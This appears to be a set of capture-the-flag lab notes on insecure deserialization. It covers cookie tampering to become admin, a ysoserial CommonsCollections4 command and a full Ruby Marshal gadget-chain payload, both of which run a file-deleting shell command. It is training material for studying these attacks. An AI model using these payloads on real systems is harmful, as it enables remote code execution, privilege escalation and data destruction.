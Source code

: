#  Insecure deserialization



## 1. Lab: Modifying serialized objects
- Log in with your normal user account.
- Check the session cookie in the /my-account request—it’s URL and Base64-encoded.
- Decode the cookie in Burp’s Inspector. You’ll see a serialized PHP object. The admin attribute is b:0 (false).
- Send the request to Repeater and change b:0 → b:1 to make yourself an admin. Apply changes.
- Send the request—you should now see a link to /admin.
- Go to /admin, and you’ll see options to delete users.
- Delete Carlos’ account by sending a request to /admin/delete?username=carlos.





```
java \
  --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
  --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
  --add-opens=java.base/java.net=ALL-UNNAMED \
  --add-opens=java.base/java.util=ALL-UNNAMED \
  -jar ysoserial-all.jar CommonsCollections4 "rm /home/carlos/morale.txt" | base64 -w0

```




# Ruby Compiler : 
- https://www.jdoodle.com/execute-ruby-online 
- https://www.adaface.com/online-compiler/online-ruby-compiler

```
# Autoload the required classes

Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    require 'base64'
    require 'net/http'
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```